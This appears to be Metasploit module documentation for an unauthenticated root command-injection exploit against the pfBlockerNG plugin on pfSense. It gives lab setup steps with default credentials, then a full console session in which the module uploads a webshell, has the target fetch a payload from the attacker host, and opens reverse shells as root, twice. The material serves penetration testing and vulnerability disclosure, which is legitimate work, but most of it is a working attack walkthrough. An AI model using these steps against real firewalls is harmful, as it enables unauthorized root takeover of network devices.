 ## Vulnerable Application

### Description
This module exploits a vulnerability in the pfSense plugin, pfBlockerNG that allows remote unauthenticated
attackers to execute execute arbitrary OS commands as root via shell meta characters in the HTTP Host header.
Versions <= 2.1.4_26 are vulnerable. Note that version 3.x is unaffected.

### Setup
Download the pfSense image:

`wget https://atxfiles.netgate.com/mirror/downloads/pfSense-CE-2.5.2-RELEASE-amd64.iso.gz`

To obtain a vulnerable copy of the pfBlockerNG plugin, you can build it from source from the [official pfSense github
repo](https://github.com/pfsense/FreeBSD-ports/tree/devel/net/pfSense-pkg-pfBlockerNG), or it can be downloaded from
the following link:

`wget https://files01.netgate.com/pkg/pfSense_plus-v21_09_aarch64-pfSense_plus_v21_09/All/pfSense-pkg-pfBlockerNG-2.1.4_26.pkg`

Install the .iso file in your favorite virtualizing software. You may need to use the `UEFI` or `BIOS` installation
options to install the software correctly. For testing, `BIOS` was used. You may also need to set the WAN settings.
For this you can just use the default or set it to `hn0` which should also be the default, and this will work fine for
testing purposes.

Once installed pfSense will start and you can access the web GUI by navigating to `https://<pfSense-IP-address>/`.
Sign into the application with username: `admin` password: `pfsense`

Now at the top of the screen select System -> Advanced. Scroll down to the section named Secure Shell and tick the box
beside `Enable Secure Shell`. Then click the `Save` button at the bottom of the page to apply the changes.

From your host machine we can now transfer the vulnerable package to the pfSense VM using `scp`

`scp pfSense-pkg-pfBlockerNG-2.1.4_26.pkg root@<pfSense-IP-address>:/`

(the root password of the VM will be the same as the admin password: `pfsense`)

Install the vulnerable package with: `pkg install pfSense-pkg-pfBlockerNG-2.1.4_26.pkg`

## Options

### WEBSHELL_NAME

This is the name of the webshell that will get uploaded to the pfsense target sans the ".php" ending.
If left unset the file name will be randomly generated.

## Verification Steps

1. Start msfconsole
1. `use unix/http/pfsense_pfblockerng_webshell`
1. Set the `RHOST` and `LHOST` options
1. `exploit`
1. Receive a shell as the `root` user

## Scenarios
### pfSense 2.5.2-RELEASE with pfSense-pkg-pfBlockerNG-2.1.4_26.pkg installed
```
msf > use exploit/unix/http/pfsense_pfblockerng_webshell
[*] Using configured payload bsd/x64/shell_reverse_tcp
msf exploit(unix/http/pfsense_pfblockerng_webshell) > set RHOSTS 172.23.40.111
RHOSTS => 172.23.40.111
msf exploit(unix/http/pfsense_pfblockerng_webshell) > set LHOST 172.23.47.143
LHOST => 172.23.47.143
msf exploit(unix/http/pfsense_pfblockerng_webshell) > set LPORT 4453
LPORT => 4453
msf exploit(unix/http/pfsense_pfblockerng_webshell) > set SRVPORT 8383
SRVPORT => 8383
msf exploit(unix/http/pfsense_pfblockerng_webshell) > show options

Module options (exploit/unix/http/pfsense_pfblockerng_webshell):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         172.23.40.111    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          443              yes       The target port (TCP)
   SRVHOST        0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to
                                              listen on all addresses.
   SRVPORT        8383             yes       The local port to listen on.
   SSL            true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                         no        The URI to use for this exploit (default is random)
   VHOST                           no        HTTP server virtual host
   WEBSHELL_NAME                   no        The name of the uploaded webshell sans the ".php" ending. This value will be randomly generated if left unse
                                             t.


Payload options (bsd/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  172.23.47.143    yes       The listen address (an interface may be specified)
   LPORT  4453             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   BSD Dropper


msf exploit(unix/http/pfsense_pfblockerng_webshell) > run

[*] Started reverse TCP handler on 172.23.47.143:4453
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading shell...
[*] Webshell name is: zFOOjmPXX.php
[+] The target is vulnerable.
[*] Executing BSD Dropper for bsd/x64/shell_reverse_tcp
[*] Using URL: http://172.23.47.143:8383/ITtfiF
[*] Client 172.23.40.111 (curl/7.76.1) requested /ITtfiF
[*] Sending payload to 172.23.40.111 (curl/7.76.1)
[+] Deleted /usr/local/www/zFOOjmPXX.php
[*] Command shell session 1 opened (172.23.47.143:4453 -> 172.23.40.111:30301) at 2022-10-12 19:08:21 -0500

id
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

uid=0(root) gid=0(wheel) groups=0(wheel)
whoami
root
uname -a
FreeBSD pfSense.home.arpa 12.2-STABLE FreeBSD 12.2-STABLE fd0f54f44b5c(RELENG_2_5_0) pfSense  amd64
exit
msf exploit(unix/http/pfsense_pfblockerng_webshell) > set TARGET 0
TARGET => 0
msf exploit(unix/http/pfsense_pfblockerng_webshell) > show options

Module options (exploit/unix/http/pfsense_pfblockerng_webshell):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS         172.23.40.111    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          443              yes       The target port (TCP)
   SRVHOST        0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to
                                              listen on all addresses.
   SRVPORT        9933             yes       The local port to listen on.
   SSL            true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                         no        The URI to use for this exploit (default is random)
   VHOST                           no        HTTP server virtual host
   WEBSHELL_NAME                   no        The name of the uploaded webshell sans the ".php" ending. This value will be randomly generated if left unse
                                             t.


Payload options (cmd/unix/reverse_openssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.23.47.143    yes       The listen address (an interface may be specified)
   LPORT  4545             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf exploit(unix/http/pfsense_pfblockerng_webshell) > run

[*] Started reverse double SSL handler on 172.23.47.143:4545
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Uploading shell...
[*] Webshell name is: jIuhcpoe.php
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/reverse_openssl
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo XqZbye7zG7tGBVWc;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "XqZbye7zG7tGBVWc\n"
[*] Matching...
[*] A is input...
[+] Deleted /usr/local/www/jIuhcpoe.php
[*] Command shell session 2 opened (172.23.47.143:4545 -> 172.23.40.111:33941) at 2022-10-12 19:22:13 -0500

id
uid=0(root) gid=0(wheel) groups=0(wheel)
whoami
root
```

